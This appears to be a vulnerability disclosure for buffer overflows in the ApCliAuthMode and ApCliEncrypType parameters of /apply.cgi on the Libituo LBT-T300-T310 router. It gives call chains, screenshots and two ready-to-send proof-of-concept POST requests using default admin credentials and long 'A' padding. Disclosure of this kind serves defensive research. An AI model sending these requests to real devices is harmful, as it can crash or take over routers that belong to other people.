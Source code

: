 ﻿# LBT-T310 Buffer Overflow
**Vulnerability description**
Shenzhen Libituo Technology Co., Ltd LBT-T300-T310 v2.2.2.6 was discovered to contain a buffer overflow via multiple s parameters at /apply.cgi.

## 1.ApCliAuthMode

### Vulnerability analysis
Due to the lack of data length restrictions of the ApCliAuthMode parameter, a buffer overflow vulnerability is created.

function call chain

Main()->sub_40BEC8()->start_single_service()->start_workmode()->start_lan()->start_wlan()->config_wlan()->generate_conf()->generate_conf_router()->updateCurAPlist()->makeCurRemoteApList ().
![在这里插入图片描述](https://img-blog.csdnimg.cn/e5860fcd7934499a8682a15e826b797e.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/4610d34c5a3e4a33ac5f636999476fe0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/183c41b8e5b548d6bbacd5ca9f1b3554.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/def3469bfe73490685f78cf760c10297.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a8ba62a4e5544940b2549fa8e6b1bd7a.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/124334394a244e4fb743a02b39bc38f0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5be9ceedeb1147aa845856fded4628a9.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b840a93b51b6481ab3253a9ebd8bf232.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b589d5287c0e489c8e28b863269a9eaf.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/4e033574277f4196a07307376d75f9a6.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/79fb883d8bd14b2396224c17171e1208.png)


> Payload

```html
POST /apply.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 697
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.61
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/apclient_scan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

submit_button=apclient_scan&change_action=&wan_proto=9&action=Apply&wan_dns_enable=1&ApCliEnable=1&ApCliBssid=&ApCliChannel=6&ApClientBridgeEnable=1&wr_ApClientBridgeEnable=on&ApCliSsid=Remote_AP_SSID&ApCliAuthMode=OPENAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ApCliEncrypType=NONE&ApCli_wl_wep_len=0&ApCliDefaultKeyID=1&ApCliKey1Type=0&ApCliKey1Str=**********&ApCliKey2Type=0&ApCliKey2Str=**********&ApCliKey3Type=0&ApCliKey3Str=**********&ApCliKey4Type=0&ApCliKey4Str=**********&ApCliWPAEncrypType=TKIP&ApCliWPAPSK=12345678

```

## 2.ApCliEncrypType
### Vulnerability analysis
Due to the lack of data length restrictions of the ApCliEncrypType parameter, a buffer overflow vulnerability is created.

function call chain

Main()->sub_40BEC8()->start_single_service()->start_workmode()->start_lan()->start_wlan()->config_wlan()->generate_conf()->generate_conf_router()->updateCurAPlist()->makeCurRemoteApList ().
![在这里插入图片描述](https://img-blog.csdnimg.cn/8316e2625c1b41d3a8dee38af221a239.png

![在这里插入图片描述](https://img-blog.csdnimg.cn/9b3fc42eb40440bf94d969296e821661.jpeg)
![在这里插入图片描述](https://img-blog.csdnimg.cn/4610d34c5a3e4a33ac5f636999476fe0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/183c41b8e5b548d6bbacd5ca9f1b3554.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/def3469bfe73490685f78cf760c10297.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a8ba62a4e5544940b2549fa8e6b1bd7a.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/124334394a244e4fb743a02b39bc38f0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5be9ceedeb1147aa845856fded4628a9.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b840a93b51b6481ab3253a9ebd8bf232.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b589d5287c0e489c8e28b863269a9eaf.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/4e033574277f4196a07307376d75f9a6.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/79fb883d8bd14b2396224c17171e1208.png)


> Payload

```html
POST /apply.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 697
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.61
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/apclient_scan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

submit_button=apclient_scan&change_action=&wan_proto=9&action=Apply&wan_dns_enable=1&ApCliEnable=1&ApCliBssid=&ApCliChannel=6&ApClientBridgeEnable=1&wr_ApClientBridgeEnable=on&ApCliSsid=Remote_AP_SSID&ApCliAuthMode=OPEN&ApCliEncrypType=NONEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ApCli_wl_wep_len=0&ApCliDefaultKeyID=1&ApCliKey1Type=0&ApCliKey1Str=**********&ApCliKey2Type=0&ApCliKey2Str=**********&ApCliKey3Type=0&ApCliKey3Str=**********&ApCliKey4Type=0&ApCliKey4Str=**********&ApCliWPAEncrypType=TKIP&ApCliWPAPSK=12345678

```

